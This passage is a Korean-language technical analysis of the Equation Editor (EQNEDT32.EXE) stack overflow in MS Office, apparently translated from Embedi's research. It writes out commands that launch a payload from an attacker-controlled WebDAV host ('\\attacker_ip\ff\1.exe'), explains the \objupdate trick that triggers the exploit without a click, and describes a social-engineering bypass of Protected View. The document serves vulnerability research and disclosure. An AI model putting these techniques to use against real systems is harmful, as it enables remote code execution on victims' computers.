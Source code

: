따라서, 제어된 주소로 점프될 수 있다면 해당 스택은 WinExec의 도움으로 임의의 제어된 명령어를 수행하기에 적절한 구조를 갖게 됩니다(그림 11).

![Fig](/static/img19.png "img19.png")

공격자에 의해 오버플로우된 배열의 크기는 36바이트 였다. 게다가 변수 v12와 저장된 ebp를 사용해 여분의 8바이트를 활용 가능했다.<br>
설명된 취약점을 악용하는 몇몇의 OLE들을 삽입함으로써, 순차적인 임의의 명령어들을 수행할 수 있었다.(인터넷에서 임의의 파일을 다운로드하고 실행하는 것)<br>
임의의 코드를 실행하는 가장 쉬운 방법은 공격자가 제어한느 WebDAV 서버로부터 실행가능한 파일을 다운받아 실행시키는 것이다. 그러나, 이것은 WebClident 서비스가 적절하게 운용되고 있을 때 가능한 일이다.<br> 
그럼에도 공격자는 cmd.exe /c start \\attacker_ip\ff 와 같은 명령어를 실행하기 위해 설명한 취약점을 이용하는 것이 가능하다. 이러한 커맨드는 익스플로잇의 부분과 WebClient를 시작하는 트리거로 사용할 수 있다. 
<br>이후에 공격자는 \\attacker_ip\ff\1.exe 명령어를 사용해 WebbDAV서버로부터 실가능한 파일을 시작할 수 있다. 실행가능한 파일의 시작 메커니즘은 \\live.sysinternals.com\tools 와 비슷하다.<br>
익스플로잇 과정을 통해, MS 오피스워드는 적절한 운용과 정보를 표시하게 된다(언급한 프레젠테이션 스트림은 OLE의 위치에 그림을 삽입한다). 이렇게 되면 공격자를 탐지하는 것은 더 어려워진다.<br>
어떠한 유저와도 상호작용하지 않는(더블클릭하지 않는) 문서 내부의 OLE를 업데이트하기 위해서 공격자는 MS오피스의 RTF프로세서의 표준 기능중 하나인 OLE 자동 업데이트를 사용할 수 있다.<br> 
이 목적을 위해, \objupdate 속성이 \object 에 추가되어야 한다. 결과로 해당 취약점은 유저와의 상호작용 없이도 트리거 될 수 있다.<br>
이와 같은 과정을 통해, Embedi의 전문가들은 다음과 같은 익스플로잇을 만들 수 있었다.

* 오피스 365를 포함해 지난 17년간 배포된 모든 버전에서 동작
* 모든 윈도우 버전에서 동작
* 모든 타입의 아키텍쳐와 관련 있음
* MS오피스를 사용하는 유저를 방해하지 않음
* 문서만 열리면 유저와의 상호작용을 필요로 하지 않음

유일한 방해물은 액티브 콘텐츠(OLE/액티브X/매크로)의 실행을 막는 프로텍티브 뷰 모드이다. 이것을 우회하기 위해 공격자는 사회공학적인 기법을 이용한다. 
예를 들어, 그들은 유저에게 파일을 클라우드에 저장하라고 요청할 수 있다(원드라이브, 구글클라우드). 이 경우, 원격의 소스에서 얻어진 파일은 MOTW (Mark of The Web)로 표시되지 않고 파일을 열었을 때 프로텍티브 뷰 모드가 활성화 되지 않는다.
그러나, 해당 컴포넌트들인 최신의 표준 보안 완화기술로 컴파일 된다면 익스플로잇 되지 않을 것이다. 이것은 EQNEDT32.EXE가 쉽게 익스플로잇할 수 있는 엄청난 수의 취약점과 보안 약점을 가진 컴포넌트임을 보여준다.

